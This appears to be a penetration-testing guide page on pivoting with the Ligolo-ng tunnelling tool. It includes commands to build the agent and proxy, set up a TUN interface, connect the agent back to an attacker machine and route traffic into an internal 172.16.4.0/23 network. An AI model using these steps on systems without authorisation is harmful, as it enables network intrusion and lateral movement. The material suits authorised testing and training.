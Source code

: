 ```yaml
---
legal-banner: true
---
```


1.  Run `ifconfig` and look for extra interfaces, in this example, we find `ens224`, which connects to a network our current machine can't reach directly.  
    
    ![](../../../img/Linux-Environment/13.png)
    
2.  To ensure that the `ens224` network is accessible from our attack host, we need to set up Ligolo-ng. If it's not already installed, clone the repository with the following command:
    `git clone https://github.com/nicocha30/ligolo-ng.git`  
    
    ![](../../../img/Linux-Environment/14.png)
    
3.  Navigate to the ligolo-ng directory and compile the binary agent and proxy using the command:   
    `cd ligolo-ng && go build -o agent cmd/agent/main.go && go build -o proxy cmd/proxy/main.go`  
    
    ![](../../../img/Linux-Environment/15.png)
    
4.  Alternatively, if you prefer not to build the binary yourself, you can download a [pre-built](https://github.com/nicocha30/ligolo-ng/releases/tag/v0.7.2-alpha) version.  
    
    ![](../../../img/Linux-Environment/16.png)
    
5.  Create a new TUN interface with the following commands:
    `ip tuntap add user root mode tun ligolo && ip link set ligolo up`  
    
    ![](../../../img/Linux-Environment/17.png)
    
6.  There are several methods to transfer the agent from your attacker machine to the target. Refer to the File Transfer section for more details.
    
    ![](../../../img/Linux-Environment/18.png)
    
7.  On your attacker machine, from the directory where the proxy file was built, run:
    `./proxy -selfcert` OR `./proxy -autocert`  
    
    ![](../../../img/Linux-Environment/19.png)
    
8. Use the agent to establish a connection back to your attacker machine with the following command:  
 	`./agent -connect IP:11601 -ignore-cert`
    
    ![](../../../img/Linux-Environment/20.png)
    
9.  From the Ligolo-ng terminal window, run `session`, followed by `start `to initiate the session.
    
    ![](../../../img/Linux-Environment/21.png)
    
10. To route traffic through the Ligolo-ng tunnel, add a new route with the following command:
    `ip route add 172.16.4.0/23 dev ligolo && ip route`  
    
    ![](../../../img/Linux-Environment/22.png)
    
11. Finally, confirm that pivoting is working by successfully pinging a machine on the second network.
    
    ![](../../../img/Linux-Environment/23.png)